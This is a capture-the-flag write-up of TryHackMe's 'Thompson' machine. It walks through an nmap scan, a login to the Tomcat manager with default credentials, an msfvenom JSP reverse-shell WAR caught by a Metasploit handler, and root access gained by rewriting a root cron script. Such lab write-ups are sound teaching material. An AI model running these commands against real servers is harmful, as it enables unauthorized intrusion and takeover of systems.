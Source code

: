 ```yaml
---
title : "Thompson - Write Up"
date : 2021-07-04T13:39:34+02:00
author : "Lanfran02"
cover : "cover.png"
useRelativeCover : true
description : "TryHackMe's easy level machine."
tags : ["tomcat","misconfigured","msfconsole","java","TryHackMe"]
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/bsidesgtthompson)  | Easy  |  [stuxnet](https://tryhackme.com/p/stuxnet)  |

## Reconn

As always, let's run `nmap` to see what ports are open.
```bash
╰─ lanfran@parrot ❯ map 10.10.128.244                                                                                              ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 13:43 CEST
Nmap scan report for 10.10.128.244
Host is up (0.10s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.03 seconds
```
As the name and cover picture of the room indicate, the machine is running an Apache Tomcat server on port 8080.

## Foothold - User

We get the default Tomcat page, and also we can go to `Manager App` tab.

Maybe if we try with the defaults credentials for Tomcat?? 
_tomcat:s3cret_

YES! We are inside!
![Foothold](foothold.png)

And inside here, we can upload a `.war` file!

So let's run `msfconsole` and `msfvenom` to create a payload!


```bash
#Creating the payload
╰─ lanfran@parrot ❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=5555 -f war > shell.war                                ─╯
Payload size: 1091 bytes
Final size of war file: 1091 bytes

```
```bash
#Running Metasploit to handle the reverse connection
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.6.21:5555
```

Now let's upload our `shell.war` file.

And navigate to the "rare" filename. In my case it was `http://10.10.128.244:8080/hgkFDt6wiHIUB29WWEON5PA/`

After that, we should have a new shell in Metasploit.

```bash
[*] Command shell session 1 opened (10.9.6.21:5555 -> 10.10.128.244:34468) at 2021-07-04 13:57:31 +0200

id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```
Let's upgrade out shell with python.

`python -c 'import pty;pty.spawn("/bin/bash")'`

Great! We can now read the user's flag.

```bash
tomcat@ubuntu:/home/jack$ cat user.txt
3[REDACTED]f
```

## Root

There's a cron job running with root's privs.

So let's go to `/home/jack` and copy the root's flag to a file in our home directory.

```bash
tomcat@ubuntu:/home/jack$ echo "cat /root/root.txt > test.txt" > id.sh
tomcat@ubuntu:/home/jack$ cat id.sh
cat /root/root.txt > test.txt
```

After a minute, we get the root flag in test.txt

```bash
tomcat@ubuntu:/home/jack$ cat test.txt            
d[REDACTED]a
```

And we "rooted" the machine!

That's all from my side, hope you find this helpful!